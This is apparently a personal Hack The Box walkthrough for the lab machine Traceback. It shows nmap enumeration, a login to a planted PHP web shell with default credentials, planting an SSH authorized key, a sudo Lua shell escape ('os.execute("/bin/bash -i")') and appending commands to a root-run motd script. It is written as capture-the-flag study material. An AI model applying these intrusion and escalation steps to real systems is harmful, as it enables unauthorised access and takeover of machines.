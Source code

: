 ## Hack The Box - Tracback

### This is my writeup and walkthrough for Traceback from Hack The Box.


![main](https://user-images.githubusercontent.com/36403473/90196696-cd8f2a00-ddcc-11ea-9f4f-5c0f9ca9ba3d.jpg)



### It was an easy machine from *Hack The Box*

## `Enumeration`

#### 1-Nmap 
  `nmap -sC -sV 10.10.10.181`

``` 
nmap -sC -sV 10.10.10.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 01:20 EET
Nmap scan report for 10.10.10.181
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 103K  2020-02-27 05:37  smevk.php
|_
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Index of /
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
I found http on port 80 and ssh on port 22.
use should have password to conncet server so lets see http 
i opend source code i found this comment 
`
		<!--Some of the best web shells that you might need ;)-->`

![Screenshot from 2020-05-07 17-49-56](https://user-images.githubusercontent.com/36403473/81316540-feecb100-908b-11ea-94d2-a4b602e0a7b6.png)
 the first thing i do i bruteforce http dircetory by Wfuzz but it take much time , i googled on this comment i found differnt web shells on :
https://github.com/TheBinitGhimire/Web-Shells" 
reading smevk.php
we can login http://10.10.10.181/smevk.php
username:**admin**
password:**admin**

now lets go to this  directory  **/home/webadmin/.ssh** 
![Screenshot from 2020-05-07 18-23-38](https://user-images.githubusercontent.com/36403473/81319780-745a8080-9090-11ea-800a-f18601cdc38f.png)
i could to upload ssh autherizeed key 
to generate ssh keys  
i used  **`ssh-keygen`** tool on linux 
![sshgenerat](https://user-images.githubusercontent.com/36403473/81320041-da470800-9090-11ea-93d7-6956bc5bfdc0.png)
and uplad an autherized key on the server 
### 2-user access 

so now lets try to login to server:
**`ssh-i id_rsa webadmin@10.10.10.181`**

![echo_note](https://user-images.githubusercontent.com/36403473/81354623-61fe3800-90cc-11ea-8ccc-92a912176868.png)
two files was the solution to take user acess **note.txt** & **bash-history**
okey the olny thing we will do write simple lua script and save it on file
**echo 'os.execute(" /bin/bash -i ")' >>block.lua ** 
save it on **block.lua file**

![note script](https://user-images.githubusercontent.com/36403473/81354540-2cf1e580-90cc-11ea-8b80-ff368637bbfb.png)
 okey lets try to acess sysadmin  by block.lua
` sudo -u sysadmin /home/sysadmin/luvit block.lua
`
 go back to home directory 
![acces_system_admin](https://user-images.githubusercontent.com/36403473/81355358-983cb700-90ce-11ea-8a26-2eec59305606.png)
  
now i have access on sysadmin 
checking files `ls -al `

![acces_system_admin](https://user-images.githubusercontent.com/36403473/81357137-287cfb00-90d3-11ea-874e-160c7a63cca7.png)

now i have user access `user.txt`
### 3-root access
lets try to get root access, so i searched all files i didnt get any thing. 
after googling much time to get root access i use **`ps -aux`** commmnd  to provide information about the currently running processes.
i notice that there was an operation happened in this directory **`/etc/update-motd.d/`**
going to this directory ckeck all details **`ls -al`**
![not2root](https://user-images.githubusercontent.com/36403473/81357368-ba850380-90d3-11ea-9e74-9ceedefe51cc.png)
after googling i discovred bug in  The file `/etc/update-motd.d/00-header` according to this   [/etc/update-motd.d/00-header is broken](https://bugs.launchpad.net/ubuntu/+source/base-files/+bug/510599).

so lets
`echo "cat root/root.txt " >> 00-header`
then login again to server serialsry i try many time to login 
at the end the root flag printed on the welcome screen 
